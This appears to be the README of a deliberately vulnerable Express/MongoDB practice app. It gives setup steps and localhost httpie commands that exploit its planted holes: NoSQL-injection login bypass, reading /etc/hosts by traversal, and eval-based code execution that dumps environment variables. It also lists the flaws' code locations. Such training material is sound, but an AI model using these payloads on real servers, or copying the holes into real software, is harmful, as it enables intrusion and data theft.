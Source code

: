 # NodeJS Tarpit - Chuck B. (edited - 04-07-2022)

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites (Running without docker)

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Pre-requisites (Running with docker)

- Docker
- Run the command `make start`

### Setup (if not using docker)

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```bash
node db-init.js
```

### Installation (if not using docker)

Run `npm install` to install all dependencies for the project to run

### Run Application (if not using docker)

Run `npm run server` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

Can exploit the whole server by injecting something like the code below (https://medium.com/lift-security/in-memory-backdoor-for-node-js-express-apps-2a3f4301925b)

```bash
http GET http://localhost:8089/user-input userInput=="res.cookie('appLocals',JSON.stringify(req.app.locals))"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js#L9)
- [x] [nosql injection](src/Controllers/Login.js#L33...L36)
- [x] [remote code execution](src/views.js#L19): [UserInput](src/Views/UserInput.pug#L6)
- [x] [sensitive data leak](src/Controllers/Login.js#L47)
- [x] [insider attack](src/server.js#L22...L31)
- [x] [business logic flaw](src/Controllers/Order.js#L69...L79)
- [x] [business logic flaw](src/Controllers/Order.js#L100...L110)
- [x] [hard coded credentials](src/Controllers/Order.js#L55...L63)
